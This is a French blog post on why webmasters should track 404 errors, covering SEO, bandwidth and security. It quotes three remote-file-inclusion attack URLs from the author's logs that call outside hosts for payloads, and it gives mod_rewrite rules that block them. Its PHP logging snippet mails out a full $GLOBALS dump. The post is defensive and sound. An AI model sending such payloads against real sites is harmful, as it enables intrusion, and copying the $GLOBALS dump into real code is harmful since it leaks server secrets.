

A l’heure où tout le monde ne jure que par l’optimisation du référencement — on dit Search Engine Optimization, ou SEO, pour faire branché — afin d’augmenter son trafic, et ainsi ses clients potentiels et/ou son revenu publicitaire, qui se soucie de vérifier ce qui se passe pour les internautes qui arrivent bien sur le site, mais sur une page qui n’existe pas, indiquée comme il se doit par une erreur HTTP 404[^erreur] ?

[^erreur]: Oui, c’est la règle, mais certains ne la respectent pas, bien entendu…

Si vous ne vous en souciez pas, commencez tout de suite à le faire, il y a beaucoup à apprendre, et sans doute beaucoup d’améliorations à apporter à votre site.

Le moyen le plus simple de connaître les URL en erreur 404 sur lesquelles arrivent les internautes, c’est d’abord de s’intéresser à celles qui sont référencées dans les moteurs de recherche, dont Google. On peut trouver justement un référencement des pages en erreur, dont celles en 404, au sein des [outils Google pour les webmasters](https://www.google.com/webmasters/tools/).



Une autre méthode plus basique et source potentielle d’explosion de compte mail est de se faire envoyer un mail à chaque requête donnant une erreur. C’est ce que j’ai fait dans mon squelette `404.html` pour Gastero Prod, en donnant au passage quelques informations utiles de contexte d’appel :

```php
<?php
mail('adresse@example.com',
  '[GP404] '.$_SERVER['REQUEST_URI'],
  '#URL_SITE_SPIP'.$_SERVER['REQUEST_URI']."\r\n".'User agent: '.$_SERVER['HTTP_USER_AGENT']."\r\n".'Referer: '.$_SERVER['HTTP_REFERER']."\r\n".print_r($GLOBALS, true),
  'From: adresse@example.com');
}
?>
```

Identifier les erreurs 404 permet d’améliorer un site sur plusieurs sujets :

# La qualité du référencement

Si un internaute arrive sur votre site depuis un moteur de recherche, et tombe sur une erreur 404, c’est qu’il y a un soucis dans votre référencement, sans doute parce que votre site ou un autre site contient des liens qui pointent vers ces mauvaises URL, liens qui existent :

- soit par simple erreur de frappe, ce qu’un bon [outil de gestion de contenus Web](http://www.clever-age.com/veille/clever-link/les-outils-de-gestion-de-contenu.html) devrait permettre d’éviter,
- soit parce que vous avez modifié vos URL, ce qu’il ne faut surtout [pas faire](http://www.w3.org/Provider/Style/URI) !,
- soit parce que des URL déterminées et gérées automatiquement sont mal configurées.

En observant les erreurs 404 relevées par Google, j’ai pu corriger de nombreux problèmes apparus sur Gastero Prod, notamment avec le petit changement opéré sur les URL[^url] pour que les articles du blog ne soient plus à la racine mais dans une sous rubrique blog/ et surtout un mélange entre URL absolues et URL relative, pas encore totalement bien gérées dans SPIP avec des URL arborescentes.

[^url]: Oui, je sais, c’est mal, mais j’ai mis des redirections permanentes au moins, moi ! 😉

Il n’y a bien entendu pas que le nettoyage des erreurs 404 qui permet d’améliorer la qualité du référencement, mais c’est un autre sujet…

# Les performances, la consommation de bande passante, et donc potentiellement le coût de l’hébergement

Si vous faites en sorte de diminuer les erreurs 404 sur votre site, quelles qu’en soit les causes, les internautes ne téléchargeront que les pages réellement intéressantes, et vous réduirez le gaspillage de ressources de votre serveur, ainsi que la bande passante consommée.

Selon la nature de votre hébergement, cela peut avoir un impact — positif à priori — sur son coût, ce qui peut s’avérer intéressant comme motivation.

# La sécurité

Vous pouvez aussi identifier, dans les erreurs 404, des attaques essayant de profiter de failles de sécurité de solutions packagées.

Par exemple, un requête revenant ces derniers temps dans mes logs de 404 est la suivante :

```
http://www.gasteroprod.com/infoevent.php3?rootagenda=http://love-ma2.t35.com/sistem.txt?
```

En cherchant `infoevent.php3` sur Google, j’ai découvert qu’il s’agit d’un script faisant justement l’objet d’[une faille de sécurité de phpMyAgenda](http://www.securityfocus.com/bid/29164).

Comme par hasard, le client ayant fait cette requête n’est pas un navigateur traditionnel, mais s’identifie comme étant `libwww-perl/5.803`. C’est donc bien un programme qui tente l’attaque, sauf falsification de signature qui serait ici inepte.

Autre exemple avec cette requête :

```
http://www.gasteroprod.com//tags.php?BBCodeFile=http://guhit.com/img/id.txt?
```

Requête qui correspond à [une faille de sécurité de Tagger LE](http://www.securityfocus.com/bid/19464), et qui est demandée comme par hasard aussi par un client `libwww-perl/5.812` !

Dernier exemple avec cette requête :

```
http://www.gasteroprod.com//chat/users_popupL.php3?From=http://www.covoiturage.fr/communities/arab.txt??
```

Requête qui correspond à [une faille de sécurité de phpMyChat](http://osvdb.org/39224)[^pmc], et qui est demandée comme par hasard une fois de plus par un client `libwww-perl/5.805` !

[^pmc]: Oups oups oups ! :-(

Je tiens à signaler aux hackers qui me liraient que je n’utilise aucune de ces applications, ni aucune des nombreuses autres auxquelles s’adressent les autres attaques que je subi…

Faudrait-il donc refuser systématiquement toute requête signée par `libwww-perl` ?

En tout cas, vous pouvez déjà refuser les requêtes clairement identifiables comme des attaques brutales, par exemple comme ceci si vous avez le module `mod_rewrite` pour Apache :

```apacheconf
# Bloquer certaines attaques brutales pas fines
# http://www.securityfocus.com/bid/19464
RewriteCond %{QUERY_STRING} &?BBCodeFile=([^&]+)
RewriteRule tags\.php - [F,L]
# http://www.securityfocus.com/bid/29164
RewriteCond %{QUERY_STRING} &?rootagenda=([^&]+)
RewriteRule infoevent\.php3 - [F,L]
# http://osvdb.org/39224
RewriteCond %{QUERY_STRING} &?From=([^&]+)
RewriteRule users_popupL\.php3 - [F,L]
```

Voilà, vous êtes prévenus, n’ignorez plus vos erreurs 404, agissez !
